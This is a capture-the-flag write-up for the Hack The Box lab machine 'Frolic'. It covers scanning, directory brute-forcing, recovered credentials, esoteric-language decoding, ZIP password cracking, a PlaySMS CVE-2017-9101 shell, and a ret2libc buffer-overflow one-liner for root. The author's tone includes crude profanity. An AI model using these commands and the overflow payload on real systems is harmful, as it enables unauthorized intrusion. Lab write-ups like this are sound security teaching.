# [Frolic](https://app.hackthebox.com/machines/frolic)

```bash
rustscan 10.10.10.111 --ulimit 5000 -b 2000
```



Let's do nmap scan for open ports.

```bash
nmap -sC -sV -p22,139,445,1880,9999 -A 10.10.10.111 -Pn
```



Here, we see SMB port is open on target, let's do `smbmap` to see shares on SMB

```bash
smbmap -H 10.10.10.111
```




From result, we see that we don't have any access to shares.

On port 9999, we have nginx server, let's do directory brute-force here.

```bash
gobuster dir -u http://10.10.10.111:9999/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```




On '/backup' directory, we see some interesting stuff.




While we curl for 'user.txt' and 'password.txt' for backup directory. We see that we have some credentials.




admin: imnothuman

We can see '/admin' panel that have login page. Let's try to login with default credentials.




Let's do directory brute-force for '/dev' directory.
```bash
gobuster dir -u http://10.10.10.111:9999/dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```




Let's try to curl these pages.




We find 'playsms' application, on this URL.




Let's look at the source page of 'admin' panel.



Hola, we can see clear-text credentials on code that is **hard-coded.**


admin: superduperlooperpassword_lol

While we login with above credentials, we have success page like this.




While I search this result on Google, I see that is 'Ook!' programming language.




While, I use decoder for 'Ook!' programming language on [here](https://dcode.fr/ook-language)




Let's check this '/asdiSIAJJ0QWE9JAS' endpoint.

Again we have some fucking text on this page.




I searched on [Cyberchef](https://cyberchef.io/)




It is actually ZIP file.


I download this string to my machine as ZIP file, tried to unzip this, it says me that  I need to enter password. FUCK




Let's brute-force this via `fcrackzip` tool.
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt index.php.zip
```




Let's unzip password, and we got again 'index.php' file, we read this file, again we have fucking long length of string.





I do again Cyberchef to decode this, I have final result.




I searched output on Google, I know that it is 'Brainfuck' language.




Let's decode this by using 'Brainfuck' programming language.




Now, I have password like this 'idkwhatispass'

I check this credentials on services which I have see before, and it works on PlaySMS

admin: idkwhatispass




I searched exploit on Google for PlaySMS application, I found CVE-2017-9101.




I got shell,




Let's make this interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=bash
```




user.txt



There , we have binary directory called '.binary'  (I find hidden directory with -a option of `ls` command)



I searched exploitation for this '.rop' and find the exploit.

```bash
./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
```


root.txt



